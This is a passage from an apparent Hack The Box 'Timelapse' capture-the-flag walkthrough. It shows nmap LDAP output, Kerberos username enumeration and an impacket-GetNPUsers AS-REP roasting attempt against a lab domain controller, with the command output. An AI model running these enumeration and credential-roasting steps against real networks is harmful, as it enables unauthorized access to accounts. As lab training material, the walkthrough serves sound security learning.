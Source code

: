 ```
|      supportedControl: 1.2.840.113556.1.4.2330
|      supportedControl: 1.2.840.113556.1.4.2354
|      supportedCapabilities: 1.2.840.113556.1.4.800
|      supportedCapabilities: 1.2.840.113556.1.4.1670
|      supportedCapabilities: 1.2.840.113556.1.4.1791
|      supportedCapabilities: 1.2.840.113556.1.4.1935
|      supportedCapabilities: 1.2.840.113556.1.4.2080
|      supportedCapabilities: 1.2.840.113556.1.4.2237
|      subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=timelapse,DC=htb
|      serverName: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=timelapse,DC=htb
|      schemaNamingContext: CN=Schema,CN=Configuration,DC=timelapse,DC=htb
|      namingContexts: DC=timelapse,DC=htb
|      namingContexts: CN=Configuration,DC=timelapse,DC=htb
|      namingContexts: CN=Schema,CN=Configuration,DC=timelapse,DC=htb
|      namingContexts: DC=DomainDnsZones,DC=timelapse,DC=htb
|      namingContexts: DC=ForestDnsZones,DC=timelapse,DC=htb
|      isSynchronized: TRUE
|      highestCommittedUSN: 131168
|      dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=timelapse,DC=htb
|      dnsHostName: dc01.timelapse.htb
|      defaultNamingContext: DC=timelapse,DC=htb
|      currentTime: 20230328083440.0Z
|_      configurationNamingContext: CN=Configuration,DC=timelapse,DC=htb
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.17 seconds
```

User enumeration with nmap Kerberos script:
```
└─$ sudo nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='timelapse.htb',userdb=/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt" 10.10.11.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-27 18:38 MDT
Nmap scan report for timelapse.htb (10.10.11.152)
Host is up (0.19s latency).
PORT  STATE SERVICE
88/tcp open  kerberos-sec
| krb5-enum-users: 
| Discovered Kerberos principals
|    administrator@timelapse.htb
|_    guest@timelapse.htb
Nmap done: 1 IP address (1 host up) scanned in 2.48 seconds
```

GetNPUsers - To retrieve users with **"NO PRE-AUTH SET"** to then **AS\_REP ROAST**
```
└─$ impacket-GetNPUsers -usersfile /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -dc-ip 10.10.11.152 timelapse.htb/                1 ⨯
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```